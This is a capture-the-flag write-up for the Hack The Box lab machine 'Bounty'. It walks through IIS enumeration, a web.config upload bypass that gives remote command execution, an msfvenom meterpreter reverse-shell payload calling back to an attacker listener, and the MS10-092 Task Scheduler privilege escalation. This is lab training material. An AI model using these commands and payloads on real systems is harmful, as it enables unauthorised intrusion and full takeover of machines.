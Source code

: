 # Bounty

[![Bounty](https://secure.gravatar.com/avatar/77c9ae29c6d9f3add2af21410c1090d5.jpg?s=150&d=retro&r=x)](https://www.hackthebox.eu/home/machines/profile/142)

## User
### Nmap
We begin by running Nmap.
```sh
$ nmap -T4 -A -v 10.10.10.93
```
As we can see port 80 is open,but the website is empty.

### Dirb
We run dirb to get hidden directories.
```sh
$ dirb http://10.10.10.93
```
You should have found the **'uploadedfiles'** directory, but still nothing you can do.
As we previously saw from nmap scan, we are dealing with an IIS server. So we will use dirb's extension feature to search for arbitrary file extensions that are used by the IIS server until we find the right one.

```sh
$ dirb http://10.10.10.93/ -X .aspx
```

Running the above command we find the **'transfer.aspx'** file, where we can upload files. 
However uploading an **.aspx** reverse shell doesn't seem to work. By viewing page source code, we can see that a function named **'ValidateFile()'** is called and it is blacklisting file extensions. So we have to find the right extension to exploit this. 
With the information from the message we get when we try to upload a file with the wrong extension and a little google search, we come up with [this](/Write-ups/Bounty/web.config) structure of file.

- sources: 
-- https://soroush.secproject.com/blog/tag/unrestricted-file-upload/
-- https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.asp

By uploading the [web.config](/Write-ups/Bounty/web.config) file, we get the pleasant message **'File uploaded successfully.'**. 
Next we go to **'uploadedfiles/web.config'** where we should get a field to execute system commands, along with some system information.

**Careful**! We have changed a line in the previous script so we get into a word-writable Windows directory, otherwise we wouldn't have access.
- directory changed:
-- C:\ 
-- C:\windows\system32\spool\drivers\color\ 

**Warning!** The file gets deleted after a few seconds. So act quickly.

### Getting user
As long as we have a basic RCE, getting user is a piece of cake.
```sh
$ more C:\Users\merlin\Desktop\user.txt
```

## Root
### Priv esc
Now we can upload anything we want to the remote machine via **'transfer.aspx'**, by simply appending the **.config** extension to the file. The uploaded files can then be found in the directory **'C:\inetpub\wwwroot\uploadedfiles\'**

### Msfvenom payload
We create a payload with msfvenom and we upload it to remote machine.
```sh
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell.exe
```
**Careful**! The payload must be **x64** architecture, otherwise this is not going to work. Once we upload the payload copy it in the users Desktop.
```sh
$ copy /B C:\inetpub\wwwroot\uploadedfiles\shell.exe.config C:\Users\merlin\Desktop\shell.exe
```

### Msfconsole
Next step is to open msfconsole and set it up.
```sh
$ msfconsole
$ use exploit/multi/handler
$ set payload windows/x64/meterpreter/reverse_tcp
$ set LHOST 10.10.10.10
$ set LPOST 4444
$ exploit -j
```
Back in the remote machine we execute the **'shell.exe'** file we uploaded by running the following command.
```sh
$ start shell.exe
```

### Getting root

We now have an open session running in the background. After hours (for me) of enumeration and again some google search, we can see that the remote system is vulnerable in the **Task Scheduler** and we can use this to elevate our privilages.
- source:
-- https://docs.microsoft.com/en-us/security-updates/securitybulletins/2010/ms10-092

In the same msfconsole window, while we already have an open session, we put it in the background by typing:

```
background
```

And we make use of a windows exploit suggester by assigning it the already open meterpreter session.

```sh
$ use post/multi/recon/local_exploit_suggester
$ sessions
$ set session <session number>
```

The exploit **'exploit/windows/local/ms10_092_schelevator'** seems to be promising.
- CVE:
-- https://www.exploit-db.com/exploits/15589/

So we make use of it on the current opened session to see if it works.

```sh
$ use exploit/windows/local/ms10_092_schelevator
$ set session <session number>
$ set payload windows/x64/meterpreter/reverse_tcp
$ set LHOST <local ip>
$ set LPORT 4444
$ exploit
```

OK. We got a new session running where if we type the bellow command, we will see we have Administrator privileges.
```sh
$ sysinfo
```

Final task, let's get root!!!
```sh
$ more C:\Users\Administrator\Desktop\root.txt
```

[![bertolis](https://www.hackthebox.eu/badge/image/27897.png)](https://www.hackthebox.eu/home/users/profile/27897)